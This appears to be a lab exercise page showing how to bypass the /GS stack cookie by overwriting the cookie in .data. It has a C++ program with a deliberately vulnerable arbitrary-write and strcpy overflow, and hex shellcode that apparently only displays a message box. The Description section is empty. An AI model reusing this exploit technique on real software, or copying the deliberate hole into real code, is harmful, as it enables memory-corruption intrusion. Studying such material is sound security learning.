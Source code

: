 ## Positive hard GS (replaces the original cookie in .data)

### Code

```cpp
#include<string.h>
#include<stdlib.h>

char Shellcode[] =
"\x90\x90\x90\x90"//new value of cookie in .data 
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x6B\x61\x6F\x6F\x68\x4D\x69\x73\x61\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\xF4\x6F\x82\x90" // result of \x90\x90\x90\x90 xor EBP 
"\x90\x90\x90\x90" // Nop Code
"\x94\xFE\x12\x00" // address of Shellcode 
;

void test(char * s, int i, char * src)
{
	char dest[200];

	if(i < 0x9995)
	{
		char* buf = s + i;
		*buf = *src;
		*(buf + 1) = *(src + 1);
		*(buf + 2) = *(src + 2);
		*(buf + 3) = *(src + 3);
		strcpy(dest, src);
	}
}

void main()
{
	char* str = (char *)malloc(0x10000);
	test(str, 0xFFFF2FB8, Shellcode);
}
```

### Description

